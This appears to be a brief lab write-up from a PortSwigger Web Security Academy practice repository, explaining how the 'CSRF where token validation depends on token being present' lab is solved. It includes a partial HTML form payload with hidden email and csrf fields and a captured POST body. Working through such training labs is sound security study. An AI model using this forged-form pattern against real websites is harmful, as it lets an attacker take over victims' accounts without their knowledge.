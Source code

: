 # CSRF where token validation depends on token being present
- The attackology is the same as [CSRF vulnerability with no defenses
](https://github.com/p-cap/Portswigger-Academy-Mock/blob/main/CSRF/1%20-%20CSRF%20vulnerability%20with%20no%20defenses/Readme.md)
- Why? Because the request sent via the html page DOES NOT CONTAIN csrf value
- You can send a csrf value via input tag 

Inside the HTML file
```html
....
            <input type="hidden" name="email" value="pcap_panwed_you_one_more_tme@pcap.com">
            <input type="hidden" name="csrf" value="mycsrfbaby">
....
```

Inside the body request after the form performs the POST request
```
...
          email=test%40test.com&csrf=LJ91i9rpcIpNesfgDvv1I4qcvIfkIKKd
...
```
